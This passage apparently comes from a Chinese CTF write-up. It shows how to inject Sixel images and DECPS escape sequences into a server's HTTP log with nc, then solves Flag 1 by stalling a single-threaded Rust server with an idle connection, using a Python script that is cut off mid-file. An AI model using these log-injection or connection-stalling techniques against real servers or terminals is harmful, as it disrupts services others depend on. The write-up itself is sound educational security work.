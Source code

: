 你甚至还可以在服务器的 HTTP 日志里面留下卡通图片（不能太大，否则会超服务器自己的 URI 长度限制），像这样：

```sh
# 控制一下图片大小
img2sixel -w 10% -h 10% ./DVwyApZVQAIurns.png > /tmp/sixel
printf "GET /%s HTTP/1.0\r\n\r\n" "$(cat /tmp/sixel)" | nc 127.0.0.1 8000
```

（[原图](https://www.pixiv.net/en/artworks/67242257)）

在支持 Sixel 协议的终端模拟器（例如 Konsole）里，使用 `python:2` 容器的 `SimpleHTTPServer` 测试，效果如图：

![Sixel image in HTTP log](assets/simplehttpserver-sixel.png)

如果你是 Windows Terminal 用户，你甚至可以在看日志的时候[使用 DECPS 转义序列听歌](https://github.com/microsoft/terminal/issues/8687)！以下抛砖引玉，给出一个例子：

```sh
printf "GET /?\e[3;16;5,~\e[3;8;3,~\e[3;16;1,~\e[3;8;3,~\e[3;12;5,~\e[3;4;6,~\e[3;8;5,~\e[3;24;3,~ HTTP/1.0\r\n\r\n" | nc 127.0.0.1 8000
```

https://github.com/user-attachments/assets/4544647c-3755-4a1b-85c8-3204b957478e

[decps-haruhikage.mp4](assets/decps-haruhikage.mp4)

参考资料：<https://qiita.com/good_kobe/items/a11366d27fc6b62774ff#decps%E3%81%AE%E8%A9%B3%E7%B4%B0%E3%83%AA%E3%83%B3%E3%82%AF>（日文）

（不过严肃地讲，这个处理似乎是阻塞的。如果音符的时间调得很长，是不是可以变相地 DoS 跑在 Windows Terminal 上的有问题的程序？）

### Flag 1

可以轻松注意到这个 Rust 代码是这样处理传入连接的：

```rust
for stream in listener.incoming() {
    match stream {
        Ok(stream) => {
            handle_connection(stream);
        }
        Err(e) => {
            eprintln!("Connection failed: {}", e);
        }
    }
}
```

没有异步、没有线程，因此只要开一个连接，然后什么都不发送，就可以卡住了。为了让 server.py 能走后续流程，需要先 fork 一个进程出来，在子进程里面创建这个连接然后睡大觉，父进程稍等一会退出即可。

一个简单的 Python 版本如下：

```python
#!/usr/bin/python3
import multiprocessing
import socket
import time

def connect_and_sleep():
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.connect(('127.0.0.1', 8000))
            print(f"Connected to 127.0.0.1:8000 - PID: {multiprocessing.current_process().pid}")
            while True:
                time.sleep(3600)
    except Exception as e:
        print(f"Connection failed: {e}")


if __name__ == "__main__":
```